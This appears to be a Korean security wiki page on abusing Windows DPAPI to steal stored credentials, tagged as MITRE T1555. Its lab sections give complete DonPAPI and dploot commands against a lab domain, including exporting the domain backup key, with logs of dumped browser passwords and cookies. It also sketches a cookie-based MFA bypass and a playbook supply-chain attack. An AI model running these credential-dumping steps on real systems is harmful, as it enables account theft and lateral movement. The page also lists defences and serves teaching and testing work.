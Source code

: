 ```yaml
---
description: T1555 -  Credentials from Password Stores
---
```


# DPAPI

## 개념

DPAPI는 운영체제 레벨에서의 암호화를 쉽게 진행할 수 있도록 Win32API를 제공해주는 윈도우 API다. 윈도우에서 실행되는 소프트웨어를 만들 때 대칭/비대칭 암호화를 사용해야 하는 경우는 많다. 이때 개발자들이 안전하고 편리하게 암호화를 진행할 수 있도록 도와주는 API 함수들의 집합이 DPAPI다. 뿐만 아니라 DPAPI 마스터 키 (Master Key)를 통해 대칭 키를 안전하게 암호화하거나 비대칭 키를 안전하게 생성하고 보관할 수 있도록 키 관리 (Key Management)에 사용되기도 한다.

간단하게 정리하자면 개발자의 입장에서 암호화는 워낙 복잡하고 안전하게 구현하기 어려우니, 윈도우 운영체제에다가 암호화와 키 관리를 DPAPI를 통해 아웃소싱 한다 라고 생각하면 된다.

DPAPI 가 사용된 데이터이기 때문에 DPAPI 비밀 정보 (DPAPI Secrets) 라고도 불린다.

DPAPI Secrets:

* 인터넷 브라우저에 저장되는 계정 정보와 쿠키 정보
* 이메일 클라이언트 (Outlook, thunderbird) 등에서 사용되는 계정 정보
* 공유 폴더와 자원들을 접근할 때 사용되는 계정 정보
* RDP 등, 원격 호스트들을 접근할 때 사용되는 계정 정보
* 윈도우 자체내에서 제공하는 비밀번호 금고 (Credential Vault) 등에 사용되는 암호화 키
* Encrypting File System 및 이메일 s-MIME, ADCS 유저 인증서 (certificate) 등의 암호화

등, 사실상 소수의 비밀번호 매니저 프로그램 (1Password, BitWarden, LastPass, 등) 을 제외하고 운영체제 내에서 암호화된 데이터나 암호화에 사용되는 대칭/비대칭 키(중 private key)를 다시 암호화 하는데 DPAPI가 사용되고 있다.

DPAPI Master Key (마스터 키)는 대칭/비대칭 키 관리나 이런 키들을 다시 한 번 암호화하기 위해 사용되는 키다. 말 그대로 마스터 키라고 보면 된다. 이 마스터 키는 로컬 관리자 권한의 유저들의 파일 시스템 경로 `C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<SID>\<GUID>`에 저장된다. 전반적인 머신의 마스터 키는 머신 계정 비밀번호로부터 도출되며, SYSTEM 계정의 레지스트리 경로에 저장된다.

### 악용

DPAPI 마스터 키와 DPAPI 비밀 정보들은 대부분 Post-Exploitation 단계에서 많이 사용된다. 예를 들어 특정 호스트를 장악한 뒤 DPAPI 비밀 정보들을 털어봤을 때, 다른 호스트와 관련된 RDP/SSH 계정 정보를 탈취한 뒤, 다른 머신들로 횡적이동을 시도할 수 있다. 혹은, 브라우저안에 저장된 비밀번호들을 모두 털어 해당 유저가 사용하던 다양한 SaaS나 웹 서버들로 이동을 할 수도 있다. MFA가 있다고 하더라도 브라우저 내의 쿠키 정보까지 모두 가져올 수 있기 때문에 Pass-the-Cookie 를 통해 MFA를 우회하는 경우도 많이 있다.

예를 들어 특정 시스템 어드민 호스트를 장악한 뒤, 해당 유저가 사용하고 있었던 회사 내 Ansible Tower 데브옵스 웹 서버 계정 정보를 DPAPI 브라우저 계정 정보를 통해 털어온다. 계정 정보를 넣어보니 MFA가 가로막았지만, 브라우저 쿠키 정보를 이용해 해당 유저가 사용하고 있었던 6시간짜리 세션에 들어갈 수 있었다. 그 뒤, Ansible Tower의 Ansible 플레이북을 수정해 악성코드를 심은 뒤, 해당 플레이북을 실행해 모든 회사 내 호스트들에 악성코드를 배포한다... 라는 내부 공급망 공격을 실행할 수도 있을 것이다.

실습은 dploot 와 DonPAPI 툴을 이용해 진행한다.

### 실습 1 - 로컬 관리자 권한

특정 호스트에 로컬 관리자 권한을 획득했다면, SAM, LSA, LSASS 말고 해당 유저의 DPAPI 마스터 키를 빼내와 DPAPI 비밀 정보들을 확인할 수 있다.

```
python3 DonPAPI.py domain.com/user:pass@target 

python3 /opt/DonPAPI/DonPAPI.py choi.local/Administrator:'Password123!'@192.168.40.151 --no_recent --no_vnc --no_remoteops --no_sysadmins

INFO [192.168.40.151] [+] Gathering Wifi Keys
INFO [192.168.40.151] [+] Gathering Vaults
INFO [192.168.40.151] [+] Gathering Chrome Secrets 
INFO [192.168.40.151] [+]  [Chrome Password]  for  [  :  ]
INFO [192.168.40.151] [+]  [Chrome Password]  for https://nid.naver.com/nidlogin.login [ choisecurity : None ]
INFO [192.168.40.151] [+]  [Chrome Password]  for https://github.com/session [ choisecurity : None ]
INFO [192.168.40.151] [+]  [Firefox Password]  for https://accounts.kakao.com [ choisecurity@kakao.com : password ]
```

로컬 관리자 권한을 통해 DPAPI 마스터 키를 획득한다면 해당 유저의 비밀은 가져올 수 있다. 그러나, 해당 호스트를 사용하고 있던 다른 유저들의 비밀은 모두 빼낼 수 없다. 위의 예시의 경우, 해당 호스트를 사용하고 있던 다른 유저의 구글 크롬 브라우저 계정 비밀번호는 유저 이름은 빼왔지만, 비밀번호는 빼내오지 못한 것을 볼 수 있다.

하지만 해당 유저 (Administrator) 가 저장해 놨던 `accounts.kakao.com` 의 `choisecurity@kakao.com:password` 는 빼내온 것을 볼 수 있다.

### 실습 2 - 도메인 장악 후 Post Exploitation

도메인을 장악했다면 도메인/엔터프라이즈 관리자 권한으로 도메인 컨트롤러 서버로부터 도메인 백업 키 (Domain Backup Key)를 획득할 수 있게 된다. 이 도메인 백업 키는 모든 호스트의 모든 유저들의 DPAPI 마스터 키를 복호화 하는데 사용된다. 즉, 도메인 장악 권한을 획득했다면 도메인 내 모든 유저들의 DPAPI 비밀 정보를 획득할 수 있게 된다.

앞서 실습 #1번과는 다르게 모든 유저의 비밀을, 모든 호스트로부터 다 빼내올 수 있게 된다.

먼저 도메인 백업 키를 확보한다

```
dploot backupkey -d domain -u user -p pass <DC-IP> -quiet 

└─# dploot backupkey -d choi.local -u Administrator -p 'Password123!' 192.168.40.150 -quiet                                              
[-] Exporting domain backupkey to file key.pvk
```

확보한 백업 키를 이용해 DonpAPI, Dploot 등의 툴에다가 사용한다

```
python3 DonPAPI.py domain.com/user:pass@target -pvk <key.pvk> 

└─# python3 /opt/DonPAPI/DonPAPI.py choi.local/Administrator:'Password123!'@192.168.40.151 -pvk key.pvk --no_recent --no_vnc --no_remoteops --no_sysadmins

INFO [192.168.40.151] [+]  [Chrome Password]  for https://nid.naver.com/nidlogin.login [ choisecurity : password ]
INFO [192.168.40.151] [+]  [Chrome Password]  for https://github.com/session [ choisecurity : password ]
INFO [192.168.40.151] [+]  [Mozilla Cookie]  for .tiara.kakao.com [ UUID:b6uHID9SBYffBsIAXgnT4zO98eZA13fonWIQSfItYa8yxWlG.JOkOg00 ]  expire time: Mar 16 2033 16:02:38
INFO [192.168.40.151] [+]  [Firefox Password]  for https://accounts.kakao.com [ choisecurity@kakao.com : password ]
```

이번에는 도메인 백업 키를 이용해 DPAPI 비밀 정보를 가져왔기 때문에 `192.168.40.151` 호스트의 모든 유저들이 저장해 놨던 브라우저 비밀번호 및 쿠키까지 모두 다 빼내온 것을 볼 수 있다.

### 대응 방안

DPAPI 자체를 막을 수 있는 방안은 없다. 윈도우 운영체제 내에 기본적으로 내제된 API 집합이기 때문이다.

단, 엔드유저로서 외부 공격자들이 DPAPI 비밀 정보를 빼내가는 것을 최소화할 수는 있다.

1. 브라우저 내의 비밀번호 관리자를 사용하지 말고, 써드파티 비밀번호 매니저를 사용한다.
2. 파일시스템 내의 평문 비밀번호를 저장하지 않는다.
3. 기본 윈도우 계정 매니저 (Windows Credential Manager)를 비활성화 시킨다 (레지스트리/GPO).

시스템 어드민으로서는 DPAPI 활동에 대해서 자세한 탐지를 실행한다. 이에 대해서는 아래의 레퍼런스를 참고한다.

* https://blog.sygnia.co/the-downfall-of-dpapis-top-secret-weapon

### 레퍼런스

* https://blog.harmj0y.net/redteaming/offensive-encrypted-data-storage-dpapi-edition/
* https://blog.harmj0y.net/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/
* https://blog.sygnia.co/the-downfall-of-dpapis-top-secret-weapon
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords
* https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++
* https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-dpapi-activity



